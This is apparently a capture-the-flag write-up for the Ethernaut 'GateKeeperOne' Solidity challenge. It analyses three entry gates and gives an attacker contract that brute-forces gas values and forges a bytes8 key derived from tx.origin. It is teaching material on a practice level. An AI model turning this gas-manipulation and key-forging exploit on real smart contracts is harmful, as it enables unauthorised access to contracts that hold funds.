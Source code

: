 # GateKeeperOne

## Challenge Statement

Make it past the gatekeeper and register as an entrant to pass this level.
Things that might help:

    Remember what you've learned from the Telephone and Token levels.
    You can learn more about the special function gasleft(), in Solidity's documentation (see here and here).

## Analysis

The goal is to get through each gate.

Gate 1: msg.sender != tx.origin
Therefore a contract needs to be the one exploiting this.

Gate 2: gasleft().mod(8191) == 0
The gas at this point needs to be exactly divisible by 8191 -> can brute force

Gate 3:
Can simplify the logic here to,
```
uint32(_gateKey) == uint16(_gateKey) -> // input: 0000|69f9 == 0000|69f9
uint32(_gateKey) != uint64(_gateKey) -> // input: 1000|0000|0000|69f9 != 0000|0000|0000|69f9
uint32(_gateKey) == uint16(tx.origin) -> // input: 0000|69f9 == 0000|69f9
```

Therefore, ```_gatekey = 0x|xxxx|xxxx|0000|69f9```, I chose ```_gatekey = 0x10000000000069f9```.

## Solution

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface GatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Pass {
    GatekeeperOne target = GatekeeperOne(<target_addr>);
    bytes8 public key = 0x100000000000<Least significant 4 hex chars>;

    function exploit() public {
        for (uint i=0 ; i<8192; i++){
            try target.enter{gas: 100000000000000 + i}(key) {
                return;
            }
            catch {}
        }
    }
}
```

